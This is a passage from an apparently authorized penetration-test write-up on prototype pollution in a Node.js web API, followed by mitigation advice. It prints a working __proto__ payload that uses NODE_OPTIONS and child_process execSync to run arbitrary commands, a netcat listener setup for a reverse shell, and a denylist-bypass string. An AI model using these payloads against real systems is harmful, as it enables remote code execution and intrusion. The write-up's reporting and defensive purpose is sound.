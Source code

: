 ```python
      "achievement": {
      "reason":"Setting up employee of the month API",
      "date":"2023-10-4 11:03:04"
      },
      "__proto__": {
        "argv0": "/proc/self/exe",
        "shell": "/proc/self/exe",
        "env": { 
  "get_rekt":f"console.log(require('child_process').execSync(`{payload}`).toString())//"
        },
        "NODE_OPTIONS" : "--require /proc/self/environ"
      }
    }
  )
  
  print(res, len(res.text))
  
  res = client.get(base_url + "/employee-of-the-month/badge/refresh", headers={"cache-control": "no-cache"})
  print(res, len(res.text))

exploit()
```

Let's spin up the http server and the netcat listener, and test this out.
```
nc -lvnp 31337
python3 -m http.server
```

![](http://news.baycode.eu/wp-content/uploads/2023/09/32323.png)

## Boom, we received a reverse shell.

Unfortunately, we can not use this critical exploit, despite potential bad guys being more than happy to. It is only for reporting purposes. Do you remember beginning of the article and Rules of Engagement? No Denial of Service is allowed, and running this exploit would render `/employee-of-the-month/badge/refresh` unusable until restart of the application.

## How can I prevent prototype pollution?

### Sanitize
One approach to mitigate prototype pollution vulnerabilities involves sanitizing property keys before merging them into existing objects. This precautionary measure helps to stop attackers from injecting keys like "**proto**," which can manipulate the object's prototype.

While the ideal method is to employ an **allowlist** of approved keys, it may not always be practical. In such cases, a commonly used alternative is to employ a **denylist** strategy, where potentially harmful strings from user input are removed.

However, it's important to note that relying solely on blocklisting has limitations. Some websites may successfully block "**proto**" but still overlook vulnerabilities that arise when an attacker manipulates an object's prototype through its constructor. Additionally, weak blocklisting implementations can be circumvented using straightforward obfuscation techniques such as `__pro__proto__to__`. The sanitization removes `__proto__` from `__pro__proto__to__`, and leaves the output as `__proto__`. For this reason, **blacklisting is recommended as a temporary measure rather than a long-term solution**.
### Safeguard prototype objects
A more resilient strategy for mitigating prototype pollution vulnerabilities involves safeguarding prototype objects against any alterations.
